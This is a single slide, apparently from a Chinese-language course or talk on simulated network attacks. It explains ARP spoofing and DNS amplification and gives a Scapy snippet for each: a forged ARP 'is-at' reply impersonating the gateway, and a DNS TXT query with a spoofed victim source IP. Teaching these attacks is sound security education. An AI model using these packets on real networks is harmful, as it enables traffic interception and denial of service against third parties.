

应用分析
模拟攻击
ARP欺骗：伪造ARP数据包，利用IP和MAC地址虚假的映射关系欺骗主机或网关。

pkt = Ether(src=src_mac, dst=tgt_mac)
 	/ ARP(hwsrc=src_mac, psrc=gateway_ip, hwdst=tgt_mac, 	pdst=tgt_ip, op="is-at")

DNS放大攻击：假设DNS服务器上存储有一条特别大的文本记录，现伪造被攻击主机的IP向DNS服务器发送查询该文本记录的DNS请求，DNS就会返回含有大文本记录的查询结果导致被攻击主机因巨大流量堵塞
packet=(IP(dst=Server_IP,src=target_IP)/UDP()/DNS(rd=1, 	qr=0,qdcount=1,qd=DNSQR(qname=Domain_Name,qtype=“TXT”)))